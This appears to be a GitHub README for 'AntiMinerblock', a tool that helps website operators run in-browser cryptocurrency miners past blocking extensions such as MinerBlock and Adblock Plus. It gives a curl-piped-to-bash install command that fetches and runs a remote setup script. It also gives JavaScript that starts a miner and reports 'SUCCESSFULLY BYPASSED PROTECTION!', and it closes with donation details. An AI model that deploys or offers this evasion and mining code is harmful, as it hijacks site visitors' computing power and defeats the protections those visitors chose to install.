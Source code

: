 # AntiMinerblock
This script attempts to bypass extensions or network blocks that prevent the use of online cryptocurrency miners.

## 100% effectiveness from tested extensions
* MinerBlock
* AntiMiner
* Adblock (all lists enabled)
* Adblock Plus

## Features
* 100% success rate
* Obfuscates filenames per server
* Automatically creates proxy (using coin-hive-stratum)
* Random port
* Interactive setup

## Installation
### Ubuntu/Unix
First, make sure you have Node.js installed:
https://nodejs.org/en/download/package-manager/

Navigate to your server's scripts directory and run
```bash
bash <(curl -s https://raw.githubusercontent.com/SkyrisBactera/AntiMinerblock/master/setup.sh)
```
Then, add the script tag that the file generates to every HTML file you want to be protected. That's it!
### Windows
Not implemented yet (you can use cygwin for now)

## Usage
Call loadCryptominer, which will return a miner, and will return a value 0 to 4 referring to whether or not it worked.
```
0 - Remote coinhive
1 - Local coinhive with proxy
2 - Authedmine
3 - Crypto-loot
4 - Cloudcoins
5 - All blocked
6 - Script not blocked, but failure creating miner instance
```

Example:
```javascript
loadCryptominer(function(miner, status) {
  //Code that mines
  //For example:
  if (status == 5 || status == 6) {
    console.log("TEST FAILED!")
  } else {
    console.log("SUCCESSFULLY BYPASSED PROTECTION!")
  }
  miner.start();
  // Update stats once per second
  setInterval(function() {
    var hashesPerSecond = miner.getHashesPerSecond();
    var totalHashes = miner.getTotalHashes();
    var acceptedHashes = miner.getAcceptedHashes();
    console.log(hashesPerSecond, totalHashes, acceptedHashes)
    }, 1000);
});
```
## Donate!
If you appreciate this project, feel free to send me some Monero at:
```424kUkn7pU7SVF4qmbzVt6fLPRFw6Q1v7RmVq4qE9sE2V5dyhZoGdWHDUFui85SfhVTfmDN3CzcYDQSwo41z3AuLDzU3qQt```

or just use PayPal:
```davis@skyrisbactera.com```
